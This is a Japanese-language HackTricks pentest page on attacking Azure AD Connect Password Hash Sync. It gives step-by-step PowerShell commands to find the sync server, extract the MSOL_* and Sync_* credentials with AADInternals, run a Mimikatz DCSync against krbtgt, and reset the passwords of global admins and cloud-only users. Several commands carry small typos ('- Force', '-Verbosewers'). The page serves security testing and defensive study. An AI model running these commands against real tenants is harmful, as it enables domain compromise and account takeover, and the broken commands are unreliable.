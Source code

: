 # Az - PHS - パスワードハッシュ同期

<details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>をご覧ください！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをご覧ください
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォロー**してください。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有**してください。

</details>

## 基本情報

**パスワードハッシュ同期**は、ハイブリッドアイデンティティを実現するために使用されるサインイン方法の一つです。**Azure AD Connect**は、オンプレミスのActive DirectoryインスタンスからクラウドベースのAzure ADインスタンスに、ユーザーのパスワードのハッシュのハッシュを同期します。

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

これは、オンプレADとAzure ADを同期するために企業が使用する**最も一般的な方法**です。

すべての**ユーザー**とパスワードハッシュの**ハッシュ**がオンプレからAzure ADに同期されます。ただし、**クリアテキストのパスワード**や**オリジナルのハッシュ**はAzure ADに送信されません。\
さらに、**組み込み**のセキュリティグループ（ドメイン管理者など）はAzure ADに**同期されません**。

**ハッシュの同期**は**2分ごと**に行われます。ただし、デフォルトでは、Azure ADでは**パスワードの有効期限**と**アカウントの有効期限**は**同期されません**。そのため、**オンプレのパスワードが期限切れ**（変更されていない）のユーザーでも、古いパスワードを使用してAzureリソースに**アクセスを続ける**ことができます。

オンプレのユーザーがAzureリソースにアクセスしたい場合、**認証はAzure ADで行われます**。

**PHS**は、**Identity Protection**やAADドメインサービスなどの機能に必要です。

## ピボット

PHSが設定されると、いくつかの**特権アカウント**が自動的に**作成**されます：

* アカウント**`MSOL_<installationID>`**はオンプレADに自動的に作成されます。このアカウントには**ディレクトリ同期アカウント**の役割が与えられます（[ドキュメント](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)を参照）つまり、オンプレADで**レプリケーション（DCSync）の権限**を持っています。
* アカウント**`Sync_<on-prem ADConnect Serverの名前>_installationID`**がAzure ADに作成されます。このアカウントは、Azure AD内の**任意のユーザー**（同期されたもの、またはクラウドのみ）の**パスワードをリセット**することができます。

これら2つの特権アカウントのパスワードは、**Azure AD Connectがインストールされているサーバー**上のSQLサーバーに**保存されています**。管理者はこれらの特権ユーザーのパスワードをクリアテキストで抽出することができます。\
データベースは`C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`にあります。

テーブルの一つから設定を抽出することができ、そのうちの一つは暗号化されています：

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**暗号化された設定**は**DPAPI**で暗号化されており、オンプレADの**`MSOL_*`**ユーザーの**パスワード**とAzureADの**Sync\_\***のパスワードが含まれています。したがって、これらを侵害することで、ADとAzureADにプライベートエスカレーションすることが可能です。

これらの資格情報がどのように保存され、復号されるかの[完全な概要はこのトークで見ることができます](https://www.youtube.com/watch?v=JEIR5oGCwdg)。

### **Azure AD connectサーバー**を見つける

Azure AD connectがインストールされている**サーバー**がドメインに参加している場合（ドキュメントで推奨されている）、それを見つけることができます：
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

### MSOL\_\*の悪用
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
これらの資格情報を取得するために、[**adconnectdump**](https://github.com/dirkjanm/adconnectdump) も使用できます。
{% endhint %}

### Sync\_\* の悪用

**`Sync_*`** アカウントを侵害することで、任意のユーザー（グローバル管理者を含む）の**パスワードをリセット**することが可能です
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
クラウドユーザーのパスワードのみを**変更することも可能です**（それが予期せぬことであっても）
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
このユーザーのパスワードをダンプすることも可能です。

{% hint style="danger" %}
別の選択肢として、**Sync** ユーザーが**権限**を持っている**サービスプリンシパルに特権的な権限を割り当てる**ことができ、その後、権限昇格の方法としてそのサービスプリンシパルに**アクセスする**ことができます。
{% endhint %}

### シームレス SSO

PHSと一緒にシームレス SSOを使用することが可能で、これは他の悪用に対して脆弱です。以下で確認してください：

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## 参考文献

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>をチェックしてください！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手してください。
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)コレクションをチェックしてください。
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローしてください。**
* **HackTricks**の[**GitHubリポジトリ**](https://github.com/carlospolop/hacktricks)や[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)にPRを提出して、あなたのハッキングのコツを共有してください。

</details>
